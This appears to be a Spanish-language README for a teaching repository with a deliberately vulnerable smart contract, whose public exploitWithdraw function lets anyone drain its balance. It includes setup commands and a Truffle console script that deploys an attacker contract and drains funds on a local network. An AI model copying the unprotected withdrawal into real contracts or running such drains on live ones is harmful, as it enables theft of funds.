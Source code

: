 Explicación de la vulnerabilidad
La vulnerabilidad radica en la función exploitWithdraw que es pública, permitiendo que cualquiera llame a la función withdrawFunds, que transfiere todo el balance del contrato al msg.sender sin ninguna verificación adicional.

Guía para Crear y Probar la Vulnerabilidad
1. Clonar el repositorio:

  En primer lugar, asegúrate de tener instalado git y node.js. Luego, clona tu repositorio:
  bash: 
  git clone https://github.com/Yovanys-tm/ContratoVulnerable/tree/master.git
  cd vulnerable-smart-contract

2. Instalar dependencias:
  Asegúrate de tener Truffle o Hardhat instalado. Si no, puedes instalarlo con:
  bash: 
  npm install -g truffle # O hardhat

  Después, instala las dependencias locales del proyecto:
  bash: 
  npm install

3. Desplegar contratos:
  Para compilar y desplegar los contratos, sigue estos pasos:

  En truffle-config.js o hardhat.config.js, configura la red local.

  Despliega el contrato vulnerable:
  bash : 
  truffle migrate --reset

4. Interactuar con los contratos:
  Una vez que los contratos estén desplegados, puedes interactuar con ellos usando la consola de Truffle:
  bash : 
  truffle console

  En la consola, realiza los siguientes pasos para simular el ataque:
  javascript
  // Asigna la dirección del contrato vulnerable
  let vulnerable = await VulnerableContract.deployed();

  // Deposita ETH en el contrato vulnerable
  await vulnerable.deposit({from: accounts[0], value: web3.utils.toWei('1', 'ether')});

  // Despliega el contrato atacante
  let attacker = await Attacker.new(vulnerable.address);

  // Ejecuta el ataque
  await attacker.attack({from: accounts[1]});

  // Verifica que los fondos han sido retirados
  let newBalance = await vulnerable.balance();
  console.log("Balance del contrato vulnerable después del ataque:", newBalance.toString());


